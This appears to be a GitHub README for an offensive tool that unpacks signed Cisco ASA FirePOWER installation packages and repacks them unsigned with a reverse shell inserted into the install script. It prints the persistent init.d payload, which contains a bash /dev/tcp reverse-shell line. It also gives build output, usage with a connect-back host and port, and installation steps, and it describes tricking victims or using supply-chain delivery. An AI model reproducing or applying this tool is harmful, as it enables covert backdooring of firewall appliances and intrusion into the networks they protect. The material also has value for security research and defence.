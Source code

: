# What's Up?

*What's Up?* is a tool for embedding a reverse shell in [FirePOWER Services Software for ASA](https://software.cisco.com/download/home/286283326/type/286277393/release/6.2.3) installation packages (e.g. asasfr-sys-6.2.3-83.pkg). The packages, as provided by Cisco, are encrypted **and** signed and therefore cannot be modified. However, the ASA FirePOWER module boot image *will* accept an unsigned package as long as it's packaged correctly.

*What's Up?* will unpackage the encrypted and signed package, reformat the data into an unsigned package, and insert the desired reverse shell into the package's installation script (`install.sh`). When the victim installs the package, the following payload will be added to the `init.d` scripts with a corresponding symlink in `/etc/rc.d/rc3.d/`

```
#!/bin/sh

source /etc/rc.d/init.d/functions
PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/sf/bin:/sbin:/usr/sbin"

xploit_start() {
  (sleep 300 && /bin/bash -i >& /dev/tcp/10.0.0.28/1270 0>&1)&
}

case "\$1" in
'start')
  xploit_start
  ;;
*)
  echo "usage $0 start|stop|restart"
esac
```

*What's Up* generated packages are most likely useful when tricking a user to install content. For example, if an unexpecting soul downloads the package off of the internet or a trusted 3rd party instructs the victim to install the malicous package. Technically speaking, it's also useful in a supply chain attack, but an attacker can do that manually as well.

## Performance

*What's Up?* is sort of slow. Due to the amount of decryption, unpacking, and repacking, it can take up to 15 minutes to run. I also foolishly shove the entirety of the `pkg` file into memory... twice! So it can be a real memory hog too. 

## Tested?

*What's Up?* was written and tested on Ubuntu 20.04.04. I don't promise it will work anywhere else. I've manipulated the following packages and verified the following boot images load them:

* [asasfr-sys-5.4.1-211.pkg](https://software.cisco.com/download/home/286283326/type/286277393/release/5.4.1) using [asasfr-5500x-boot-5.4.1-211.img](https://www.virustotal.com/gui/file/0f231a57651c3054fab788ebc0f58bf66af27329a754443e336d714c3b04da53)
* [asasfr-sys-6.2.3-83.pkg](https://software.cisco.com/download/home/286283326/type/286277393/release/6.2.3) using [asasfr-5500x-boot-6.2.3-4.img](https://www.virustotal.com/gui/file/3c15f8c9d3b4480f97ae61a070e1fe33749dcde609e95002ce755e90d1bbde71)

Unfortunately, `pkg` files are too large for VirusTotal.

## Compilation

Compile with CMake:

```
albinolobster@ubuntu:~/whatsup/build$ cmake ..
-- The C compiler identification is GNU 9.4.0
-- The CXX compiler identification is GNU 9.4.0
-- Check for working C compiler: /usr/bin/cc
-- Check for working C compiler: /usr/bin/cc -- works
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Detecting C compile features
-- Detecting C compile features - done
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/whatsup/build
albinolobster@ubuntu:~/whatsup/build$ make
Scanning dependencies of target whatsup
[ 50%] Building CXX object CMakeFiles/whatsup.dir/src/main.cpp.o
[100%] Linking CXX executable whatsup
[100%] Built target whatsup
albinolobster@ubuntu:~/whatsup/build$ 
```

## Usage Example

*What's Up* accepts three inputs:

* A valid/signed Cisco created FirePOWER software package (e.g. asasfr-sys-6.2.3-83.pkg)
* An LHOST to connect back to (e.g. 10.0.0.28)
* An LPORT to connect back to (e.g. 1270)

```
albinolobster@ubuntu:~/whatsup/build$ ./whatsup -i ~/Desktop/asasfr-sys-5.4.1-211.pkg --lhost 10.0.0.28 --lport 1270
   __      __  __               __    __
  /\ \  __/\ \/\ \             /\ \__/\ \
  \ \ \/\ \ \ \ \ \___      __ \ \ ,_\ \/ ____
   \ \ \ \ \ \ \ \  _ `\  /'__`\\ \ \/\/ /',__\
    \ \ \_/ \_\ \ \ \ \ \/\ \L\.\\ \ \_ /\__, `\
     \ `\___x___/\ \_\ \_\ \__/.\_\ \__\\/\____/
      '\/__//__/  \/_/\/_/\/__/\/_/\/__/ \/___/
   __  __
  /\ \/\ \
  \ \ \ \ \  _____            jbaines-r7
   \ \ \ \ \/\ '__`\              🦞
    \ \ \_\ \ \ \L\ \      "What's going on?"
     \ \_____\ \ ,__/
      \/_____/\ \ \/
               \ \_\
                \/_/

[+] User provided package: /home/albinolobster/Desktop/asasfr-sys-5.4.1-211.pkg
[+] Copying the provided file to ./tmp
[+] Extracting decryption materials
[+] Attempting to decrypt the package... this might take 10ish minutes (and a lot of memory, sorry!)
[+] Successful decryption! Cleaning up extra files
[+] Unpacking...
... snip lot's of annoying output ...
[+] Generating the data archive
[+] Creating new.pkg...
[+] Writing file and section headers
[+] Appending the compressed archive
[+] Appending the checksum section
[+] Completed new.pkg
```

## Installation Example

The `new.pkg` file then needs to be installed on an ASA-X with FirePOWER services. Installation goes something like this (note that the output is overly simplified - actual installation can take ~2 hours and some commands will not immediately be available because the software is chugging along in the background):

```
albinolobster@ubuntu:~$ ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 albinolobster@10.0.0.21
albinolobster@10.0.0.21's password: 
User albinolobster logged in to ciscoasa
Logins over the last 3 days: 38.  Last login: 20:59:32 UTC Jun 10 2022 from 10.0.0.28
Failed logins since the last login: 0.  
Type help or '?' for a list of available commands.
ciscoasa> en
Password: 
ciscoasa# sw-module module sfr recover configure image disk0:/asasfr-5500x-boot-5.4.1-211.img
ciscoasa# sw-module module sfr recover boot
ciscoasa# session sfr console
```

## Credit

* 4 Non Blondes: https://www.youtube.com/watch?v=6NXnxTNIWkc
* [plusaes](https://github.com/kkAyataka/plusaes) using the Boost Software License
* [PicoSHA2](https://github.com/okdshin/PicoSHA2) using the MIT license
